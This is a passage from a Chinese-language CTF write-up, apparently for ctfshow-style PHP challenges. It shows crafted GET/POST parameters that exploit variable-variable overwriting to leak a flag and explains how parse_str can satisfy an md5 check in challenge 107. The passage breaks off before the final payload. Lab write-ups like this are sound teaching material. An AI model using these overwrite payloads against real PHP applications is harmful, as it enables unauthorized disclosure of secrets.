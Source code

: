 $$可变变量覆盖
三个变量：$erroe(不可get赋给key)、$flag(不可post赋给value)、$suces
两种思路：

die($erroe)

把flag的值借助中间变量suces赋给error就行
`$error=$suces=$flag`

```
GET:
suces=flag
POST:
error=suces
```

die($suces)

把flag的值赋给suces，`$suces=$flag`
post传入`flag=`,那么`$_POST['flag']=$flag=NULL`

```
GET:
suces=flag
POST:
flag=
```

## 107-parse_str

```php
if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }
}
```

> [PHP: parse_str - Manual](https://www.php.net/manual/zh/function.parse-str.php)
>
> parse_str — 将字符串解析成多个变量
>
> ```php
> parse_str(string $string, array &$result): void
> ```
>
> 如果设置了第二个变量 `result`， 变量将会以数组元素的形式存入到这个数组，作为替代。(8.0中result是必须项)

比如传入：
v1=a=111&b=222
那么就得到：v2['a']=111,v2['b']=222

那么只要满足：`if($v2['flag']==md5($v3))`即可
